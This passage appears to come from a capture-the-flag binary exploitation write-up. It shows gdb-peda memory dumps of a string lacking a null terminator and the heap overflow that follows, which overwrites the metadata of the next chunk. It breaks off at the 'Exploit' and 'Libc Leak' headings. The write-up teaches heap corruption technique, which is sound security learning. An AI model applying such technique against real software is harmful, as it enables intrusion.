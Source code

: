 

    gdb-peda$ x/101bx 0x7ffe44197dd0
    0x7ffe44197dd0: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
    0x7ffe44197dd8: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
    0x7ffe44197de0: 0x42    0x42    0x42    0x42    0x42    0x42    0x41    0x41 # no null at end of Bs
    0x7ffe44197de8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197df0: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197df8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e00: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e08: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e10: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e18: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e20: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e28: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
    0x7ffe44197e30: 0x41    0x41    0x41    0x41    0x00



This means that when `strlen` runs on the buffer, it will return 100
(0x64), which I can see if I run through the call at `0x4012ca` and look
at RAX:



    RAX: 0x64 ('d')



By putting a break point after the loop (`0x4012d9`) and hitting `c`, I
can see the heap after the copy is done, and I've managed to overwrite
heap metadata:



    gdb-peda$ x/26xg 0x00000000019f9250
    0x19f9250:      0x0000000000000000      0x0000000000000041  # chunk for config
    0x19f9260:      0x4141414141414141      0x4141414141414141
    0x19f9270:      0x0000000000414141      0x0000000200000001
    0x19f9280:      0x0000000400000003      0x0000000000000018
    0x19f9290:      0x00000000019f92a0      0x0000000000000021  # chuck for desc, should be only 0x20 bytes
    0x19f92a0:      0x4242424242424242      0x4242424242424242
    0x19f92b0:      0x4141424242424242      0x4141414141414141
    0x19f92c0:      0x4141414141414141      0x4141414141414141  # next chunk should start here, but overwritten
    0x19f92d0:      0x4141414141414141      0x4141414141414141
    0x19f92e0:      0x4141414141414141      0x4141414141414141
    0x19f92f0:      0x4141414141414141      0x4141414141414141
    0x19f9300:      0x0000000041414141      0x0000000000000000
    0x19f9310:      0x0000000000000000      0x0000000000000000



If I can overwrite heap metadata, that's a place to try to exploit.

### Exploit

#### Libc Leak
